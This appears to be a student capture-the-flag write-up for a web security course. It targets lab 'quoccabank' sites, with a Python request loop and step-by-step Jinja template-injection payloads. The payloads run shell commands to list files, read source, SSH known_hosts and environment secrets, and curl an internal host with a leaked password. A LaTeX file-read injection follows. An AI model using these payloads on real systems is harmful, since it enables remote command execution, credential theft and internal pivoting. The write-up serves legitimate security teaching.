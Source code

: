```python
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

s = requests.Session()
s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False
s.headers.update({
    "Cookie": "eyJ1c2VybmFtZSI6InVzZXIyIn0.ZFC2aQ.BsZAct3LquXvcVCTmahoB9iTOBg"
})

while True: 
    r = s.post("https://secrets.quoccabank.com/update", json={"secret": f"{input()}"})
```

### SSRF
#### 
1. Log into the *user2* account and update secret with `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls src').read() }}`.
2. Log in back to the admin account to view the contents in `src`.
3. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat src/views.py').read() }}`.
4. Log in back to the admin account to view the contents in `src/views.py`.
5. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /home').read() }}` and view the contents. 
6. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /home/melon').read() }}` and view the contents. 
7. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -a /home/melon').read() }}` to view all filesincluding hidden files, e.g. *.ssh*.
8. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -a /home/melon/.ssh').read() }}` to view all hidden files in *.ssh*. 
9. The admin endpoint shows a *known_hosts* file within *.ssh*.
10. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat -a /home/melon/.ssh/known_hosts').read() }}` to view contents. 
11. The admin endpoint shows the existence of a host, `crombridge-analytical.quoccabank.com` 
which is not accessible by external servers but is likely accessible by the host server.
12. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat/proc/self/environ').read() }}` to view the environment variable: *SUPER_SECURE_SECRET_PASSWORD=OUR_ACCESS_CONTROL_IS_SECOND_TO_NONE*. 
13. Repeat step 1 with secret payload, `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl crombridge-analytical.quoccabank.com?password=OUR_ACCESS_CONTROL_IS_SECOND_TO_NONE'').read() }}` to make a curl request to *crombridge-analytical.quoccabank.com with the password found in the environment. 
14. View the content on the admin account.

## Letters
### SSRF
#### COMP6443{IWonderWhatThatDebugOptionIsFor}
1. View the source page by clicking *Secret Sauce*. 
2. The body of the letter is specified by user input, which is rendered within a LaTex template, so this is vulnerable to LaTex injection. 
3. To access the */flag*, insert `\input{/flag}` as the content of the letter. 
